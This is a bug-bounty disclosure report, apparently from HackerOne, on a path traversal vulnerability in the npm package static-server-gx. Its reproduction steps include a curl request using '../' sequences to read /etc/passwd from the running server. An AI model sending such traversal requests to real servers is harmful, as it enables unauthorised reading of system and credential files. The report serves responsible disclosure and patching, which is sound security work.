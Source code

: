 # [static-server-gx] Path Traversal allowing to read any files on the server

## Report Details
- **Report ID**: 581939
- **URL**: https://hackerone.com/reports/581939
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-05-16T04:34:07.806Z
- **Disclosed**: 2020-09-03T00:44:44.737Z

## Reporter
- **Username**: lightangel1412
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report path traversal vulnerability in module "static-server-gx"
It allows an attacker to read any files even system files via this path traversal vulnerability.

# Module

module name: static-server-gx
version: 1.2.1
npm page: https://www.npmjs.com/package/static-server-gx

# Module Description
N/A

# Module Stats
[21] downloads in the last week
[77] downloads in the last month

# Vulnerability

##Vulnerability Description
Path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files.

##Steps To Reproduce:
- Install the module
```
npm install -g static-server-gx
```

- Run 'static-server-gx in "~/Desktop" directory:
```
nodejs /usr/lib/node_modules/static-server-gx/server.js 
```

- Use cURL to access etc/passwd file:
```
curl --path-as-is --url "localhost:10000/../../../../etc/passwd"
```
{F491057}

## Patch
User input should be properly sanitized and filtered to remove dot-dot-slash (../)” sequences and its variations in path. 

## Supporting Material/References:
- Linux kali 4.15.0-kali2-amd64
- node 10.15.3
- npm 6.9
- Firefox ESR 52.7.3 (64-bit)

## Wrap up
- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

It could have enabled an attacker to view system files and leverage attacks like remote code execution and so on.

## Attachments
- static-server-gx_-_PathTraversal.PNG
